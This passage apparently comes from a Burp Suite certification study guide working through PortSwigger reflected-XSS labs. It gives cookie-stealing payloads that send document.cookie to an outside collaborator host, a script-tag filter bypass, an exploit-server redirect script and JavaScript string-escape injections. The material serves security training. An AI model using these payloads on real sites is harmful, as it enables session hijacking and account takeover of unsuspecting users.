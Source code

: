 ```
</ScRiPt ><img src=a onerror=document.location="https://OASTIFY.COM/?biscuit="+document.cookie>
```

> Exploit Server hosting search term reflected vulnerability that is send to victim to obtain their session cookie.

```html
<script>
location = "https://TARGET.net/?search=%3C%2FScRiPt+%3E%3Cimg+src%3Da+onerror%3Ddocument.location%3D%22https%3A%2F%2FOASTIFY.COM%2F%3Fbiscuit%3D%22%2Bdocument.cookie%3E"
</script>
```

> The application gave error message `Tag is not allowed`, and this is bypassed using this `</ScRiPt >`.

### Reflected String Extra Escape

> See in `source code` the variable named `searchTerms`, and when submitting payload `fuzzer'payload`, see the single quote is backslash escaped, and then send a `fuzzer\payload` payload and _**identify**_ that the backslash is not escaped.

```
\'-alert(1)//  

fuzzer\';console.log(12345);//  

fuzzer\';alert(`Testing The backtick a typographical mark used mainly in computing`);//
```

> Using a single **backslash**, single quote and **semicolon** we escape out of the JavaScript string variable, then using back ticks to enclose the `document.location` path, allow for the cookie stealer to bypass application protection.

```
\';document.location=`https://OASTIFY.COM/?BackTicks=`+document.cookie;//
```

> With help from Trevor I made this into cookie stealer payload, using back ticks. Thanks Trevor, here is his Youtube walk through [XSS JavaScript String Angle Brackets Double Quotes Encoded Single](https://youtu.be/Aqfl2Rj0qlU?t=598)

[![fail-escape](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/fail-escape.png)](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/images/fail-escape.png)
[PortSwigger Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped)